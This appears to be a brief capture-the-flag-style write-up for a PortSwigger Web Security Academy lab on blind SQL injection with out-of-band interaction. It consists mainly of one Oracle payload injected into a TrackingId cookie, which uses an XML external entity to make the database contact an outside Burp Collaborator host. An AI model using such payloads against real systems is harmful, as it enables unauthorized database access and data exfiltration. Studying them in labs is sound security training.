 ```yaml
---
layout: default
title: 16 - Blind SQL injection with out-of-band interaction
---
```

Oracle

https://portswigger.net/web-security/sql-injection/cheat-sheet

```R
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//bixkdbjkewy7v26t6d9ep4em9df73zunj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
